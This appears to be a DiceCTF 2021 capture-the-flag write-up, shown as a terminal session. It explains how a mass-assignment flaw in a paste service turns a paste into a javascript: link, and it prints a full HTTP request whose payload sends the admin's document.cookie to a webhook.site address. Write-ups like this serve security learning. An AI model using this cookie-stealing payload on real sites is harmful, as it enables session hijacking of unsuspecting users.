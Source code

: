 My friend made this dumb tool; can you try and steal his cookies? If you send me a link, I can pass it along.




root@kali:~/Documents/DiceCTF/2021/web-web-utils# cat exploit.txt
The view page has the following problem:

if (type === 'link') return window.location = data;


However the link page only allows you to submit URL (regex). So we need to bypass the paste page and create a link from there.
Luckly they have explode the req.body like so:

database.addData({ type: 'paste', ...req.body, uid });

Allowing us to send a type to override the "paste".

See request below.

Burp request:


POST /api/createPaste HTTP/1.1
Host: web-utils.dicec.tf
Connection: close
Content-Length: 134
sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://web-utils.dicec.tf
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-utils.dicec.tf/pastes/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"data":"javascript:document.location='https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c='+document.cookie","type":"link"}


Once created, submit the link to admin /view/XXXX and the callback will go on webhook.site with the cookie as query param
root@kali:~/Documents/DiceCTF/2021/web-web-utils#
